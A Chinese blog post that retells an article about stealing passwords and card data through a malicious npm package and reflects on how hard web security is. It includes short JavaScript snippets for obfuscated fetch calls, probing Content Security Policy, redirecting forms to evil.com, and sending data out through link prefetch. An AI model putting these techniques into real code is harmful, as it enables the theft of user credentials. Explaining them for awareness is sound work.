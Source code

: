 ```yaml
---
layout: post
title: web哪有什么安全
date: 2018-08-13
categories: tech
publish: true
---
```


读[一篇文章](https://hackernoon.com/im-harvesting-credit-card-numbers-and-passwords-from-your-site-here-s-how-9a8cb347c5b5)，有感而发，安全真的难做。

文中一些让人“眼前一亮”的 hack 如下：

- 传播方式：npm dependency 注入，相比之下 xss 什么的就弱爆了，没有用户输入也能让你中招
- 伪装成人畜无害的 package，比如“let you log to console in any color”（我觉得是在黑 chalk.js），然后拼命往其他 npm 上下载的多的项目提 pr，总会有一些 merge 的
- 然后就静静地躺在那些中招的项目的 node_modules 里，耐心潜伏
- 恶意代码被发现了咋办？这个好说，在项目结构上伪装一下，`src`里放人畜无害的代码，`dst`里放 unglify 的恶意代码（反正`dst`里的代码也是 gitignore 掉的），但是并不是从`src`的代码 build 过去的。所以，看项目的 github 干干净净，但是从 npm 下载下来的执行的代码，却是完全的两回事
- 而且，恶意代码也没那么容易发现，至少静态扫代码不行：

```javascript
const i = "gfudi"; // fetch
const k = s =>
  s
    .split("")
    .map(c => String.fromCharCode(c.charCodeAt() - 1))
    .join("");
self[k(i)](urlWithYourPreciousData);
```

- 假设你在`colorful.log`的时候，就已经莫名其妙的执行了很多恶意代码了，比如获取`input[type=password].value`
- 这些获取的信息，总得传到自己的服务器上吧，这个门道就更多了：
- 永远不在`NODE_ENV=developement`的时候发请求，开发测试期可能就躲过去了
- 永远不在 7am 到 7pm 发请求，高峰期又可能就避过去了（数据先放 localStorage 之类的地方缓缓）
- 然后现代浏览器发请求，都有个叫 Content Security Policy 的东西做安全的托底。有 CSP 怎么绕开呢？先确认一下：

```javascript
fetch(document.location.href).then(resp => {
  const csp = resp.headers.get("Content-Security-Policy");
  // does this exist? Is is any good?
});
```

- 确认的目的很简单，如果顶着 CSP 作案，可能会被 report-uri 捕获，留下犯罪痕迹
- CSP 不合理就好办了：

```javascript
Array.from(document.forms).forEach(
  formEl => (formEl.action = `//evil.com/bounce-form`)
);
```

- 有 CSP 咋办呢，还有终极大招：

```javascript
const linkEl = document.createElement("link");
linkEl.rel = "prefetch";
linkEl.href = urlWithYourPreciousData;
document.head.appendChild(linkEl);
```

- 如果浏览器恰好不支持 prefetch，但是 CSP 设置却异常合理，咋整？不整了呗，反正也不会留下痕迹

---

当然故事是编的，不过从可行性上来看，没啥大问题

---

亚里士多德一波：

1. 运行在客户端的代码都是不安全的
1. web 代码（js）运行在客户端
1. 所以 web 代码是不安全的

客户端代码：AKA 用户去主动运行的代码，比起服务器代码：AKA 程序员或者程序去启动的代码，理论上就存在更多可能。游戏外挂和各种 pc 病毒都没灭绝，web 的绝对安全谈何容易，充其量也就是提高一点犯罪成本罢了。
